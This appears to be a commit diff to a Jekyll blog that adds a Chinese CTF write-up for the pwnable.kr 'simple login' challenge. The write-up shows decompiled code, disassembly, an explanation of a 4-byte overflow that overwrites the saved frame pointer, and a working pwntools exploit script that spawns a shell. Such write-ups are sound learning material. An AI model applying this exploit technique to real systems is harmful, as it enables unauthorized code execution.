

Before and after one commit to huntpig/rickgray.github.io, a Jekyll site: the page built from _posts/2015-07-25-rookiss-writeup-pwnable-kr.md, in a window 1280 px wide and 1400 px high, scrolled down 6834 px. Shown: the whole window at 88% size, without its empty margins (197-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 7375 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
题目 [simple login] WP 添加

````diff
--- a/_posts/2015-07-25-rookiss-writeup-pwnable-kr.md
+++ b/_posts/2015-07-25-rookiss-writeup-pwnable-kr.md
@@ -324,3 +324,73 @@
 p.sendline(b64e(payload) + '/bin/sh\0')
 p.interactive()
 ```
+
+### [simple login]
+
+> Can you get authentication from this server?
+>
+> Download : http://pwnable.kr/bin/login
+>
+> Running at : nc pwnable.kr 9003
+
+`login` 为 32 位 ELF 程序，简单使用 IDA 分析程序，可以得到主要程序逻辑：
+
+```c
+int __cdecl main(int argc, const char **argv, const char **envp)
+{
+  char v3; // ST04_1@1
+  int v5; // [sp+18h] [bp-28h]@1
+  __int16 v6; // [sp+1Eh] [bp-22h]@1
+  unsigned int v7; // [sp+3Ch] [bp-4h]@1
+
+  memset(&v6, 0, 0x1Eu);
+  setvbuf(stdout, 0, 2, 0);
+  setvbuf(stdin, 0, 1, 0);
+  printf("Authenticate : ", v3);
+  _isoc99_scanf("%30s", (unsigned int)&v6);
+  memset(&input, 0, 0xCu);
+  v5 = 0;
+  v7 = Base64Decode(&v6, &v5);
+  if ( v7 > 0xC )
+  {
+    puts("Wrong Length");
+  }
+  else
+  {
+    memcpy(&input, v5, v7);
+    if ( auth(v7) == 1 )
+      correct();
+  }
+  return 0;
+}
+```
+
+这里经过 `Base64Decode()` 函数解码后字符串长度不能超过 12bytes，而在 `auth()` 函数中通过 `memcpy()` 函数将解码后的字符串复制到自己的函数堆栈中：
+
+    .text:080492A2                 mov     eax, [ebp+arg_0]
+    .text:080492A5                 mov     [esp+8], eax    ; i_buf_length (max=0xc)
+    .text:080492A9                 mov     dword ptr [esp+4], offset input ; base64 decode string
+    .text:080492B1                 lea     eax, [ebp+var_14]
+    .text:080492B4                 add     eax, 0Ch        ; [ebp-0x8] buff[8]
+    .text:080492B7                 mov     [esp], eax
+    .text:080492BA                 call    memcpy          ; memcpy(&(ebp-0x8), &b64d_str, 0xc)
+
+这里可以看到 `auth()` 函数中只使用了 8bytes 来存储 Base64 解码后的字符串，而允许的解码后的字符串长度为 12bytes，溢出的 4bytes 刚好覆盖了 `ebp` 的值，在 `auth()` 函数返回执行 `leave; ret` 从而可以控制程序流程，因为输入字符串和解码后的字符串都存在了 `.bss 0x0811EB40` 地址上，所以直接覆盖 `ebp` 值为 `input` 变量的地址，并在 `0x0811EB40 + 4` 处写入需要 RET 的地址即可。
+
+程序中已经准备好了 `system("/bin/sh")`，所以直接将返回地址控制到该处即可，最终 exp 如下：
+
+```python
+#!/usr/bin/env python
+# coding: utf-8
+
+from pwn import *
+
+p = process('./login')
+
+ebp_over = 0x0811EB40  # input .bss
+pp_system = 0x08049284 # system("/bin/sh")
+payload = b64e('A' * 4 + p32(pp_system) + p32(ebp_over))
+
+p.sendline(payload)
+p.interactive()
+```
````
